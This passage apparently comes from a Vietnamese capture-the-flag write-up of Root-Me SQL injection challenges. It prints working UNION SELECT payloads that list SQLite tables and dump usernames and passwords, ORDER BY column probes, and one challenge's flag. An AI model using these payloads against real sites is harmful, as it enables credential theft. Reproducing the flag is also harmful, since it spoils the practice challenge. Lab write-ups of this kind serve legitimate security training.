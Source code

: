 ![image](https://hackmd.io/_uploads/Hkdd00Vra.png)


Tiếp tục tìm kiếm tên các table trong database (SQLite) với payload sau  :

`recherche=haha'UNION+SELECT+NULL,sql+FROM+sqlite_master--+-`

![image](https://hackmd.io/_uploads/rk4LJ1SS6.png)

Lúc này ta đã xác định được table `users` có 2 column là `username`, `password` chính là mục tiêu của chúng ta.

Bây giờ thử lấy ra `username`, `password` với payload sau : 

`recherche=haha'UNION+SELECT+username,password+FROM+users--+-`

Kết quả : 

![image](https://hackmd.io/_uploads/rkVvxJBrT.png)

Flag : c4K04dtIaJsuWdi

## [4. Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

![image](https://hackmd.io/_uploads/HyGDXKBra.png)

Challenge cung cấp cho ta giao diện như sau : 

![image](https://hackmd.io/_uploads/ryQn7YSrT.png)

Thử check form đăng nhập với các payload cơ bản nhưng không có thông báo gì 

![image](https://hackmd.io/_uploads/HknREKrSp.png)

Ta tiếp tục thử với query string trên url thì phát hiện có thông báo lỗi trả về 

![image](https://hackmd.io/_uploads/BkINwtBBp.png)

Từ thông báo trả về này ta biết được trang web đang dùng SQLite3

Ok bây giờ ta check xem thử số column : 

...

`/web-serveur/ch18/?action=news&news_id=1+ORDER+BY+4--+-`

![image](https://hackmd.io/_uploads/Sy_K_YrST.png)

Từ đây suy ra số column là 3

Kiểm tra ta thấy được column thứ 2,3 có thể dùng để khai thác :    

![image](https://hackmd.io/_uploads/HkhK-WUBp.png)

Bây giờ kiểm tra các table được tạo
